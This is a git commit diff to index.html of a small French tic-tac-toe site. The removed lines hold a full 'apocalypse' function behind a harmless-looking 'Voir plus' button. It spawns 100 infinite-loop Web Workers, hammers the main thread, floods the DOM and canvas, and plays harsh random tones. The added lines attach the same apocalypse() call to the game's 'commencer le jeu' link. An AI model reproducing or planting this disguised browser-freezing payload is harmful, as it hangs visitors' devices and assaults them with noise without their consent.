

Before and after one commit to Luiseeop/morpionjs, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 104-404 px from the top of the page, without its empty margins (503-1143 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
ygyfyuesbiog

```diff
--- a/index.html
+++ b/index.html
@@ -1,123 +1,40 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Morpion</title>
-  <link rel="stylesheet" href="style.css">
-  <style>
-    body {
-      background-color: black;
-      color: lime;
-      font-family: monospace;
-      overflow-x: hidden;
-    }
-    .glitch {
-      position: absolute;
-      font-size: 2rem;
-      animation: spin 0.1s linear infinite;
-      user-select: none;
-    }
-    @keyframes spin {
-      0% { transform: rotate(0deg); }
-      100% { transform: rotate(360deg); }
-    }
-    #canvas {
-      position: fixed;
-      top: 0;
-      left: 0;
-      pointer-events: none;
-      z-index: 9999;
-    }
-    .btn-evil {
-      display: inline-block;
-      margin: 20px;
-      padding: 15px 30px;
-      background: red;
-      color: white;
-      font-size: 18px;
-      border: none;
-      cursor: pointer;
-      border-radius: 8px;
-      text-transform: uppercase;
-      font-weight: bold;
-      box-shadow: 0 0 10px red;
-    }
-  </style>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Morpion</title>
+    <link rel="stylesheet" href="style.css">
 </head>
 <body>
 
 <main>
-  <a href="morpion.html" class="btn">Commencer le jeu</a>
-  <button class="btn-evil" onclick="apocalypse()">Voir plus</button>
-  <canvas id="canvas" width="1920" height="1080"></canvas>
+     <a href="morpion.html" class="btn" onclick="apocalypse()">commencer le jeu</a>
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
 </main>
 
-<script>
-function apocalypse() {
-  // THREAD PRINCIPAL
-  setInterval(() => {
-    for (let i = 0; i < 1e9; i++) {
-      Math.sqrt(Math.random());
-    }
-  }, 5);
 
-  // WORKERS
-  for (let i = 0; i < 100; i++) {
-    const blob = new Blob([`
-      while (true) {
-        let x = 0;
-        for (let j = 0; j < 1e9; j++) {
-          x += Math.sqrt(j);
-        }
-      }
-    `], { type: "application/javascript" });
-    const url = URL.createObjectURL(blob);
-    new Worker(url);
-  }
 
-  // DOM GLITCH
-  setInterval(() => {
-    for (let i = 0; i < 300; i++) {
-      const div = document.createElement("div");
-      div.className = "glitch";
-      div.innerText = "💀";
-      div.style.top = Math.random() * window.innerHeight + "px";
-      div.style.left = Math.random() * window.innerWidth + "px";
-      div.style.color = `hsl(${Math.random() * 360}, 100%, 50%)`;
-      document.body.appendChild(div);
-    }
-  }, 200);
-
-  // CANVAS FLOOD
-  const canvas = document.getElementById("canvas");
-  const ctx = canvas.getContext("2d");
-  setInterval(() => {
-    for (let i = 0; i < 1500; i++) {
-      ctx.fillStyle = `rgb(${Math.random()*255},${Math.random()*255},${Math.random()*255})`;
-      ctx.fillRect(Math.random()*1920, Math.random()*1080, 5, 5);
-    }
-  }, 100);
-
-  // AUDIO GLITCH
-  const audioCtx = new (window.AudioContext || window.webkitAudioContext)();
-  setInterval(() => {
-    const osc = audioCtx.createOscillator();
-    osc.type = 'square';
-    osc.frequency.setValueAtTime(Math.random() * 14000, audioCtx.currentTime);
-    osc.connect(audioCtx.destination);
-    osc.start();
-    osc.stop(audioCtx.currentTime + 0.2);
-  }, 100);
-
-  // FOND DYNAMIQUE
-  setInterval(() => {
-    document.body.style.backgroundColor = `hsl(${Math.random()*360}, 100%, 10%)`;
-  }, 50);
-
-  alert("🔥 Apocalypse activée. Que le lag commence.");
-}
-</script>
 
 <script src="script.js"></script>
 </body>
```
